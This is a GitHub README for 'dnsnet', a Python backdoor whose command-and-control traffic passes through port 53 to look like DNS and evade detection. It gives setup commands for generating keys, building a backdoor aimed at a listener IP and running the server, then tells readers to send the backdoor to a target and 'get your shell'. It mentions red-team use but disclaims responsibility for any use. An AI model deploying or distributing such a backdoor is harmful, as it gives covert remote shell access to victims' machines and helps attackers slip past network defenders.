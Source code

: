 # dnsnet (NEW VERSION COMING SOON, DO NOT DOWNLOAD THIS ONE)


# Current Version: BetaV1

# Logo:
![box](https://user-images.githubusercontent.com/72181445/155982020-2db1333f-74b7-4c3f-8178-f14a75a0a65d.png)

# Description:
DNSNET masks itself as DNS traffic by communicating through the port 53. On top of it making the traffic less easy to spot, 
it will make dealing with the backdoor alot harder since a company of course cannot block the port and good luck figuring 
out which one of the 999999999 programs that also use the 53 port is the right one. The traffic is also encrypted so that's nice I guess.

# Disclaimer:
Im not responsible for any damage or harm done by this program in the hands of other people.

# Where is this used?:
I originally started coding this because I wanted a sure way to stealth backdoor victim machine during a red team/pen test assesments however
you can use it however you want (I'm not responsible for your actions).

# Update log:
Alpha: 10 times encryption and stabile server end

AlphaV2: Automatic reconnect if connection is lost and manual reset added by pressing ctrl + c on the server end, cryptography import problems solved

BetaV1: Backdoor now remembers where you cd'ed to allowing much better file sytem exploring, overall small fixes to make the backdoor more stable and usable

# In development?: yes

# How to use (REPLACE "Listener ip" with the c2 ip):
```
git clone https://github.com/R00tendo/dnsnet
cd dnsnet
apt install unrar
unrar e cryptography.rar
pip3 install termcolor
python3 key_generator.py 5 > keys
python3 backdoor_generator.py <Listener ip>
python3 server.py
```

and send the backdoor directory and get your shell (if on windows I suggest using pyinstaller to compile it to exe first)
 
# Technical Details:
Encryption: Fernet 32bit encryption (that times the keys)
Program: Python3
  

